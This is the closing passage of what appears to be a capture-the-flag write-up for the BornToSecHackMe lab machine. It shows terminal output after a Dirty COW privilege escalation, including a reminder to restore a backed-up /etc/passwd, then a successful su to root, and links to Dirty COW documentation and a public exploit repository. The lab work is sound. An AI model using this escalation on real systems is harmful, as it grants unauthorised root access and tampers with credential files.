 ```


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
zaz@BornToSecHackMe:~$ su root
Password: 
root@BornToSecHackMe:/home/zaz# id
uid=0(root) gid=0(root) groups=0(root)
```

And we're finally **root** !

## **RESOURCES**

1. [**Dirty Cow doc**](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html)
2. [**DirtyCow.c**](https://github.com/firefart/dirtycow)



